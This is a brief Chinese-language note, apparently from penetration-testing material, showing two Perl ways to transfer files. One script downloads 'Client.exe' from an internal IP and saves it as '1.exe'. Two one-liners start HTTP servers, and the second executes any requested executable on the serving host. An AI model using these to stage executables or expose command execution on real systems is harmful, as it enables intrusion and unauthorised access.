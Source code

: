 方式一：
```perl
	#!/usr/bin/perl 
	use LWP::Simple; 
	getstore("http://192.168.1.192/Client.exe", "1.exe");

```

	执行：perl test.pl

方式二：
搭建服务器
```perl
perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>1337); $s->mount("/"=>{path=>"."}); $s->start'  
perl -MIO::All -e 'io(":8080")->fork->accept->(sub { $_[0] < io(-x $1 +? "./$1 |" : $1) if /^GET \/(.*) / })'
```